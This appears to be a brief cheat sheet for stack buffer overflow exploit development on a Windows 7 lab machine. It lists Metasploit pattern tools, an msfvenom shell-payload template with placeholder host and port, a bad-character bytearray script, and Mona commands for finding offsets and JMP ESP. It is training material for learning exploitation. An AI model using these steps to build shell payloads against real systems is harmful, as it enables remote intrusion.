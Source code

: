 # BOF

Win 7 OVA --> `https://mega.nz/file/EdFWXZCC#5P_qBh0b8FyTQGAEckbZKi1gqs31tOlKpY0B7Z1WYm0`

# Metasploit utilities

### Pattern

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb` \
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb`

### Payload

`msfvenom -p <SHELL> LHOST=<IP> LPORT=<PORT> -b "<BADCHARS>" -f python`

### Bytearray payload

`for x in range(1, 256):`\
`\tprint("\\x" + "{:02x}".format(x), end='')`


# Mona commands

### Set working directory
`!mona config -set workingfolder c:\mona\%p`

### Get EIP offset
`!mona findmsp -distance <OFFSET>`

### Create bytearray
`!mona bytearray -b "\x00\x0a"`

### Search for badchars
`!mona compare -f C:\mona\bytearray.bin -a <ESP_ADDRESS>`

### Search for JMP ESP 
`!mona jmp -r esp -cpb "<FOUND_BADCHARS>"`
